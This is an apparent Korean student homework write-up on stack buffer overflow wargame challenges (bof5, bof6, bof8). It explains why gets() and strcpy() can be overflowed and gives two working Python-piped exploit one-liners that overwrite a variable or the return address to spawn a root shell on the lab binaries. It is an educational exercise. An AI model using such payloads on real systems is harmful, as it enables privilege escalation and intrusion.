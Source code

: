 # GBC Security_07

## HW #7

### Buffer Overflow
---

#### 0. main idea
*  `gets()`함수와 `strcpy()`함수는 입력받는 data의 크기를 검사하지 않기 때문에, 정해진 메모리의 크기를 초과하여 data가 전달되었을 경우, 초과한 data가 그대로 stack에 저장되게 된다. 이 취약점을 이용하여 return address를 원하는 주소로 덮어 씌울 수 있다. 

	> 인자에 buf보다 큰 값을 전달하면, innocent 변수 직전까지 값이 채워져 그 이후 입력한 값이 innocent 변수를 덮어쓸 수 있게 될 것이다. (bof 1 - 5)



#### 1. bof5

> `gets()`의 취약점을 이용한다.

![bof6](https://user-images.githubusercontent.com/47182864/61315366-93560080-a839-11e9-9110-cae98865dc72.png)

> `gets()`가 차지하는 메모리의 크기를 알아야 한다. 따라서, `innocent의 주소값 - 해당 함수의 시작 주소값`을 해주면 함수가 차지하는 메모리의 크기를 구할 수 있다.

![bof6-2](https://user-images.githubusercontent.com/47182864/61315363-93560080-a839-11e9-8d32-95e7f4f5ed9f.png)

> `system()`에서 인자로 input값인 buf를 받고 있기 때문에, shell로 실행하기 위해서는 shell을 실행시킬 수 있는 명령으로 입력해야 한다.

![bof6-3](https://user-images.githubusercontent.com/47182864/61315364-93560080-a839-11e9-8a88-28b3b1e15c92.png)

> 따라서, 다음과 같은 명령으로 root shell을 탈취할 수 있다.

```shell
(python -c "print '/bin/sh\x00'+'\x78\x56\x34\x12'*34";cat) | ./bof5
```
> >`/bin/sh\x00` : `/bin/sh`는 shell을 실행시키기 위함이고, `\x00`은 문자열의 끝을 알리는 null byte이다.  
> >`\x78\x56\x34\x12*34` : KEY값 0x12345678을 16진수로 저장하기 위해서는 \x를 사용하여 리틀엔디안 방식으로 기입해야한다. 이 KEY값을 34번 반복하여 입력한다.  
> >`cat` : 표준 입력이 끊기지 않도록 해준다.  
> >`|` : 파이프 라인을 이용하여 출력할 값을 표준 출력으로 보낸 후, 다음 프로세스의 표준 입력으로 전달한다.


> [ result ]

![r5](https://user-images.githubusercontent.com/47182864/61317274-a5d23900-a83d-11e9-9094-6429d81e5be9.png)

#### 2. bof6

> `gets()`의 취약점을 이용한다. 
> `system()`이 shell을 호출하지 않으니, shell코드를 직접 전달해줘야 한다.

![bof6](https://user-images.githubusercontent.com/47182864/61318142-5a208f00-a83f-11e9-8a1d-3434db18a2d4.png)

> `ret`일 때의 `rsp - gets()의 시작 주소값`하여 buf의 크기를 구해준다.

![bof6-2](https://user-images.githubusercontent.com/47182864/61318140-5987f880-a83f-11e9-8d87-2024584d5fd3.png)
![bof6-3](https://user-images.githubusercontent.com/47182864/61318141-5a208f00-a83f-11e9-9c4c-0895c02b07e9.png)

> shellcode:0x601050일 때, 다음과 같은 명령으로 root shell 탈취 가능

```shell
(python -c "print 'G'*136+'\x50\x10\x60\x00\x00\x00\x00\x00'";cat) | ./bof6
```
> >`'G'*136` : G로 136만큼 덮어준다.
> >`\x50\x10\x60\x00\x00\x00\x00\x00` : shell code의 시작 주소를 리틀 엔디안 형식으로 입력해준다 (8byte).

> [ result ]

![r6](https://user-images.githubusercontent.com/47182864/61319738-ca7cdf80-a842-11e9-8371-5d3f63ebdf94.png)

##### +) plus
* 아래와 같이 랜덤한 값을 넣어가며 버퍼의 크기를 예측할 수도 있다.
* 아래에서 135를 입력했을 때는 segmentation fault가 뜨지 않는데, 136을 입력하면 segmentation fault가 뜬다. 이 경우, 135가 buffer의 크기일까? __buffer의 크기는 136이다.__
* 136일때 segmentation fault가 뜨는 이유는, 뒤에 null byte까지 채워져서 그런 것이라고 한다.
![plus](https://user-images.githubusercontent.com/47182864/61319889-3a8b6580-a843-11e9-8d80-fc8d03371d20.png)

#### 3. bof8

![bof8](https://user-images.githubusercontent.com/47182864/61323693-9a860a00-a84b-11e9-96c0-5758457a35ac.png)

	
---
### 2. Etc
---
양질의 컨텐츠 , , 찬솔님 최고 __빛 찬 솔__. 

---
### 3. plus
---
참고 및 좋은 자료
<https://redscreen.tistory.com/29>  
쉘코드 만들기
<https://bob3rdnewbie.tistory.com/124>


